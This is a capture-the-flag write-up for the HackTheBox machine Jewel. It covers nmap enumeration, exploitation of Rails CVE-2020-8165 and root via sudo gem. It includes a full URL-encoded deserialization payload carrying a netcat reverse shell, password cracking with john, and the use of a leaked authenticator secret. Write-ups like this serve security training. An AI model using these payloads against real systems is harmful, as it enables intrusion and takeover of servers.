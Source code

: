 ```yaml
---
title: HackTheBox Jewel Writeup
published: true
---
```


![](https://i.ibb.co/Q9tCD1K/logo.png)

# []()Methodlogy

* Nmap Scan
* Enumerating the web service
* found a version of ruby and exploit of it.
* server side template injection exploitation
* found the password of user bill in /var/backup
* found the secret token of Google Authenticator
* using sudo -l leads us to final part!.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine, and i found these services.**

* **22 for ssh service.**
* **8000 for http**
* **8080 for nginx**

> **nmap -Pn -sC -sV -oN scan.txt 10.10.10.211**

```ruby

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: jewel.htb Git
|_Requested resource was http://jewel.htb:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

# []()Web Service Enumeration

* **let's add jewel.htb to our /etc/hosts and start enumerating the web service.**

> **i've found a basic blog on port 8080**

![](https://i.ibb.co/DVznD7p/basic-web-page.png)

* let's sign up and look deeper.

* here i'm logged in.

![](https://i.ibb.co/mXQQNP0/logged-in.png)

> **let's check the port 8000 now.**

![](https://i.ibb.co/D4QSrHB/port-8000.png)

> **it's a .git directory, let's check if there is any good things for us.**

> **click on .git and click on intial commit and yoi will find some Gem files so let's check it.**

![](https://i.ibb.co/CtdbzT0/gem-files.png)

> **in the gem file i found the ruby version**.

![](https://i.ibb.co/WxxZLx9/ruby-version.png)

> **and there's exploit for this version**

* Link: [Ruby On Rils](https://github.com/masahiro331/CVE-2020-8165)

![](https://i.ibb.co/qkHqBD3/ruby-exploit.png)

> **now we need to register a new user and put the payload in the username field to get a reverse shell.**

> **let's register a new user and click on profile and click edit and click save and intercept the request with burpsuite**.

![](https://i.ibb.co/JmP9ZpR/burp-suite.png)

> **put this payload in username filed with changing the IP address.**

* payload: **%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T**

* **send the request twice and then refresh the web page.**

* **don't forget to start nc listener.**

![](https://i.ibb.co/R6NFYFC/reverse-shell.png)

* **nice!, we got a reverse shell now.**

# []()Privilege Escalation

> **after some eumeration i found the password of the user bill in /var/backups**

![](https://i.ibb.co/zQJw7YS/cat-comm.png)

![](https://i.ibb.co/pZgZn07/bill-pass.png)

* **let's crack the password now.**

> **sudo john --wordlist=/usr/share/wordlists/rockyou.txt pass**

![](https://i.ibb.co/CHt410K/pass-cracked.png)


> **when you try sudo -l you will see that it's request Verification code.**

![](https://i.ibb.co/93H4Hsy/verify.png)

> **there is a hidden file in home directory of bill which contain a secret token of google authenticator**.

![](https://i.ibb.co/1b18YVs/google-auth.png)

> **so we need to add the google authnticator [GAuth addon](https://chrome.google.com/webstore/detail/gauth-authenticator/ilgcnhelpchnceeipipijaljkblbcobl?hl=en) to google chrome and put the secret token in it and it will generate the OTP for us.**

![](https://i.ibb.co/PZ0CFYh/google-auth-add.png)

* **and here's the OTP**

![](https://i.ibb.co/k0pxQht/otp.png)

> **let's check "sudo -l" again**.

![](https://i.ibb.co/jkqsHQc/operation-not-per.png)

> **in this part i spend a day to identify my mistake but i didn't find anything until my friend told me this machine is all about sync.**

* **let's check the time and the date.**

![](https://i.ibb.co/rc1bfjz/timedatectl.png)

> **it's different date and time from my local date and time, so we need to change it.**

![](https://i.ibb.co/ggJ2g4Q/time-zone-change.png)

* **let' check again**

![](https://i.ibb.co/94QxWM0/bill-gem.png)

> **nice!, we will use gem command to get root ,let's open gtfobins now.**

![](https://i.ibb.co/FHpdq3F/gem-gtfobins.png)

> **sudo gem open -e "/bin/sh -c /bin/sh" rdoc**

![](https://i.ibb.co/q0dGffv/rooted.png)

* **rooted**

* **Thanks For Reading**

* **cheers!**

 <script src="https://www.hackthebox.eu/badge/103789"></script>






